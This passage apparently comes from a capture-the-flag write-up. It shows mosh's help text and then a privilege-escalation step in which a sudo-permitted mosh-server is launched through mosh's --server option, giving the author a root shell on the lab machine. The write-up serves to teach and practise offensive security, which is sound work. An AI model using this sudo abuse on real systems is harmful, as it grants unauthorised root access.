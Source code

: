 ```bash
                                (default: "mosh-server")

        --predict=adaptive      local echo for slower links [default]
-a      --predict=always        use local echo even on fast links
-n      --predict=never         never use local echo
        --predict=experimental  aggressively echo even when incorrect

-4      --family=inet        use IPv4 only
-6      --family=inet6       use IPv6 only
        --family=auto        autodetect network type for single-family hosts only
        --family=all         try all network types
        --family=prefer-inet use all network types, but try IPv4 first [default]
        --family=prefer-inet6 use all network types, but try IPv6 first
-p PORT[:PORT2]
        --port=PORT[:PORT2]  server-side UDP port or range
                                (No effect on server-side SSH port)
        --bind-server={ssh|any|IP}  ask the server to reply from an IP address
                                       (default: "ssh")

        --ssh=COMMAND        ssh command to run when setting up session
                                (example: "ssh -p 2222")
                                (default: "ssh")

        --no-ssh-pty         do not allocate a pseudo tty on ssh connection

        --no-init            do not send terminal initialization string

        --local              run mosh-server locally without using ssh

        --experimental-remote-ip=(local|remote|proxy)  select the method for
                             discovering the remote IP address to use for mosh
                             (default: "proxy")

        --help               this message
        --version            version and copyright information

Please report bugs to mosh-devel@mit.edu.
Mosh home page: https://mosh.org
svcMosh@underpass:/tmp$ 

```

Further investigation showed that Mosh uses a `--server` parameter that defaults to executing `mosh-server`. Since this command had elevated permissions, I was able to exploit it by specifying a custom server command:

```bash
svcMosh@underpass:/tmp$ mosh --server="sudo /usr/bin/mosh-server" localhost
```

Then I got the root shell:

